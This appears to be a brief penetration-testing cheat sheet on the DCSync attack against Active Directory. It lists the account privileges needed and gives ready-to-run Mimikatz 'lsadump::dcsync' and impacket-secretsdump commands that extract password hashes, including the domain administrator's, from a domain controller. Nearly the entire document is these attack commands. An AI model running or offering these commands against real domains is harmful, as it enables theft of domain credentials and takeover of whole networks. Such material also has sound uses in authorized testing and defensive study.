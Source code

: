# DC Sync

### Can be performed by Administrators, Domain Admins or Enterprise Admins as well as Domain Controller Machine Accounts

## Tools: Mimikatz , secretsdump

#### 1) Mimikatz

 - mimikatz lsadump::dcsync /domain:TARGET_DOMIAN /user:TARGET_DOMAIN\administrator

#### 2) secretsdump

 - impacket-secretsdump 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
